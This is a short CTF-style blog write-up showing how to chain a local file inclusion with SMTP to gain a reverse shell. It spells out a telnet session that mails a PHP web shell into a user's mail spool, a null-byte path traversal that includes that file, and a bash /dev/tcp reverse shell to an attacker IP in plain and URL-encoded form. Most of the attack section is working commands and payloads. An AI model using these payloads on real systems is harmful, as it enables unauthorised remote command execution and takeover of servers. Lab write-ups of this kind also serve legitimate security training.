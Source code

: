 ```yaml
---
layout: post
title:  "Using LFI and SMTP to Get a Reverse Shell"
date:   2020-02-12 08:12:24 +0530
categories: redteam ctf
---
```


Local file inclusion or LFI can be used in many ways to execute remote commands and get a reverse shell injecting commands through 
apache access log or injecting commands through error logs are some of them. This article is little bit different than those techniques
we are going to send the payload through SMTP(mail) and then we are going to execute remote commands.

This image shows the lfi that I have found,

![LFI by burpsuite](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/lfi-smtp-1.png)

After finding the LFI, next step step is to write the system command on a file which we know the path, In this tutorial I'm going to write 
the system command that we need to execute in the mail folder using smtp protocol. Here are the commands I used to send a mail including the payload 
that we need to execute.

## Send the mail with payload in it

first connect to the smtp port using telnet,
```
telnet 10.10.10.7 25
```
Sending the email with embeded payload in the body,
```
EHLO test.com

VRFY asterisk@localhost
mail from: test.com
rcpt to: asterisk@localhost
data
Subject: This is exploit
<?php echo system($_REQUEST['cmd']); ?>
.
quit
```
now go to burpsuite and access the file "../../../../../../../..//var/mail/asterisk%00"
![exploit saved in the mail](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/lfi-smtp-2.png)

Yes we successfully exploited the whoami command n the system.

## Getting the reverse shell

For this task I'm using bash reverse shell on linux. Here is the command,
```
bash -i>& /dev/tcp/10.10.14.3/1337 0>&1
```

Then url encode it,
```
bash+-i>%26+/dev/tcp/10.10.14.3/1337+0>%261
```
using a netcat listner we can catch the reverse shell
![Got the reverse shell](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/lfi-smtp-3.png)


